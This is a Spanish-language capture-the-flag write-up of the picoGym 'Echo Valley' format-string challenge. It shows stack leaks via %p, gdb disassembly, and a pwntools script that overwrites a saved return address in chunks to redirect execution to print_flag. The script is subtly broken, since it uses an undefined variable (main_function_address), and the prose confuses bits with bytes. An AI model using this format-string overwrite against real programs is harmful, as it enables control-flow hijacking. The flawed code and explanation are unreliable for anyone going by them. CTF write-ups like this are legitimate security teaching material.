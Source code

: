 ```yaml
---
layout: post
title: Echo Valley PicoGym
comments: true
categories: [Pwn, Writeups, Pwn.college]
---
```


En este post estaremos resolviendo un reto de *Format String* del [PicoGym](https://play.picoctf.org/practice/challenge/485?category=6&page=1).

<br>
![Image]({{ site.baseurl }}/images/posts/pwn-college/yellow.svg){:width="200px"}
<br>

# Reconocimiento

    The echo valley is a simple function that echoes back whatever you say to it.
    But how do you make it respond with something more interesting, like a flag?

## Analizando el format string

```
Welcome to the Echo Valley, Try Shouting: 
%p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p
You heard in the distance: 0x7fffffffd960 (nil) (nil) 0x555555559710 0x4 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0xa70252070252070 (nil) 0x589182b1c0e0300 0x7fffffffdb90 0x555555555413 0x1 0x7ffff7ddad68 0x7fffffffdc90 0x555555555401 0x155554040 0x7fffffffdca8 0x7fffffffdca8 0x672ff6e27803b87b (nil) 0x7fffffffdcb8 0x7ffff7ffd000
```

Vemos que tenemos una dirección que parece interesante, en la posición 21, `0x555555555413`. Es la dirección justo siguiente a la llamada a `echo_valley`, por lo que tiene pinta de ser la dirección de retorno. Modificando esta dirección podemos saltar a la función `print_flag`.

```bash
disass main
Dump of assembler code for function main:
   0x0000555555555401 <+0>:	endbr64
   0x0000555555555405 <+4>:	push   rbp
   0x0000555555555406 <+5>:	mov    rbp,rsp
   0x0000555555555409 <+8>:	mov    eax,0x0
   0x000055555555540e <+13>:	call   0x555555555307 <echo_valley>
   0x0000555555555413 <+18>:	mov    eax,0x0
   0x0000555555555418 <+23>:	pop    rbp
   0x0000555555555419 <+24>:	ret
```

Teniendo la direccción de retorno podemos extraer `rbp`, ya que estará en la posición anterior, es decir, la 20. Con el `$rbp` podemos obtener la dirección en la que está almacenada la dirección de retorno, esto se debe a que `$rbp` apunta siempre 8 bits antes de la dirección de retorno.

```
0x...dfc0 |  ... (buffer de 100 bytes) ...
0x...dfb0 |  Saved %rbp (apunta a la dirección de después de la dir. retorno)---+
0x...dfb8 |  Return address → <main+18>                                         |
0x....... |                               <-------------------------------------+
```

# Explotación

## Calculando el offset hasta print_flag

Sabiendo donde se almacena la dirección de retorno podemos utilizar el format string para sobreescribirla con la dirección de `print_flag`. Podemos calcular la distancia de `main` hasta `print_flag`, para poder calcular la dirección de `print_flag` en tiempo de ejecución:

```
gdb-peda$ disass print_flag 
Dump of assembler code for function print_flag:
   0x0000555555555269 <+0>:	endbr64
```

```
>>> 0x0000555555555413 - 0x0000555555555269
'0x1aa'
```

## Lanzando el ataque

Es posible hacerlo de forma manual, pero en este caso lo lanzaremos utilizando la función `fmtstr_payload` de pwntools:

```python
#!/usr/bin/env python3
from pwn import *

binary = "./valley"
context.arch = "amd64"

p = process(binary)

p.recvuntil(b"Shouting: ")
p.send(b"%20$p::%21$p")

p.recvuntil(b"You heard in the distance: ")
addresses = p.recv().decode().strip().split("::")

return_address = int(addresses[0], 16) - 8 # Dirección de rip a partir de rbp
main_address = int(addresses[1], 16)

# Calculamos la dirección de print_flag en tiempo real
print_flag_address = main_function_address - 0x1aa

log.info(f"return = {hex(return_address)}")
log.info(f"main = {hex(main_address)}")
log.info(f"print_flag = {hex(print_flag_address)}")

# Se debe mandar el payload en varios chunks
#  porque el buffer está limitado a 100 bytes
chunks = [
   print_flag_address & 0xFFFF,
   (print_flag_address >> 16) & 0xFFFF,
   (print_flag_address >> 32) & 0xFFFF,
]

log.info(f"sending the first {hex(chunks[0])} bytes")
p.sendline(fmtstr_payload(6, {return_address: chunks[0]}))
log.info(f"sending the second {hex(chunks[1])} bytes")
p.sendline(fmtstr_payload(6, {return_address + 2: chunks[1]}))
log.info(f"sending the third {hex(chunks[2])} bytes")
p.sendline(fmtstr_payload(6, {return_address + 4: chunks[2]}))

p.interactive()

```

# Créditos

Crédito al [writeup](https://hackmd.io/@sal/HJtUdR5n1e) que me ayudó a resolver el ejercicio.